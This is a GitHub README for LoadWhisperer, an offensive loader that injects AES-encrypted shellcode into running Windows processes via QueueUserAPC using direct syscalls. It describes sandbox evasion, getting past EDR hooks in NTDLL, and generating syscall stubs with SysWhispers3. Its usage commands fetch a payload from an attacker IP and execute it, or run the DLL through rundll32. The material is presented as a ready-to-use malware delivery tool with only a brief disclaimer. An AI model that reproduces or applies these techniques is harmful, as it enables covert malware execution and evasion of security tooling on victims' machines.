

# LoadWhisperer
LoadWhisperer uses direct syscalls to inject shellcode into a currently running process using the QueueAPC method, after sandbox detection and evasion and decrypting AES-encrypted shellcode. Read more about the QueueAPC method in another C# project I did [here](https://github.com/lemmyz4n3771/QueueUserAPC-ProcInjection).

## Update 2

You can now host large payloads on your attacking machine to then download and execute using LoadWhisperer as an executable. This is pretty useful, given that Visual Studio doesn't like large array buffers and a smaller binary is more versatile. Example usage:
```
C:\temp>LoadWhisperer.exe 10.10.10.10 80 pe.enc key.bin
```

## Update

Added DLL functionality to LoadWhisperer. Build the solution and test it directly like so:
```
rundll32.exe .\LoadWhispererDLL.dll, LoadWhisperer
```
You can also run the dll using the technique shown [here](https://github.com/lemmyz4n3771/Reflective-DLL-Injection).

## Using Direct Syscalls to NTDLL to Evade EDR Detection
When calling the Windows API, the usual approach is to call a function in some dynamically-linked library (DLL), which then calls an NT-prefixed function (such as `NtProtectVirtualMemory`) in `NTDLL.DLL`, which will then execute a syscall that performs the requested functionality. It is these DLLs that EDRs hook into to examine the parameters of whatever function is called. 

With this understanding, you can help bypass AV/EDR detection by avoiding calling these hooked libraries as discussed in [EDR Evasion Primer for Red Teamers](https://conference.hitb.org/hitbsecconf2022sin/materials/D1T1%20-%20EDR%20Evasion%20Primer%20for%20Red%20Teamers%20-%20Karsten%20Nohl%20&%20Jorge%20Gimenez.pdf):



You can accomplish this using [SysWhispers3](https://github.com/klezVirus/SysWhispers3), which will create the header, source, and assembly instruction files that will make these calls through your own project, instead of using `NTDLL.DLL`:

```
 $ python syswhispers.py --preset all --out-file temp/syscalls_all -v
                                                       
                  .                         ,--.       
,-. . . ,-. . , , |-. o ,-. ,-. ,-. ,-. ,-.  __/       
`-. | | `-. |/|/  | | | `-. | | |-' |   `-. .  \      
`-' `-| `-' ' '   ' ' ' `-' |-' `-' '   `-'  '''       
     /|                     |  @Jackson_T              
    `-'                     '  @modexpblog, 2021       

                      Edits by @klezVirus,  2022       
SysWhispers3: Why call the kernel when you can whisper?


All functions selected.

Complete! Files written to:
        temp/syscalls_all.h
        temp/syscalls_all.c
        temp/syscalls_all_-asm.x64.asm
Press a key to continue...
```

## Usage
Run `encrypt.py` on your payload binary to generate the AES key and ciphertext to then include in LoadWhisperer.cpp. Then build LoadWhisperer.sln and use the resulting `.exe`.


## Disclaimer
This tool was designed for educational and demonstrative purposes. I'm not liable as to how you use it.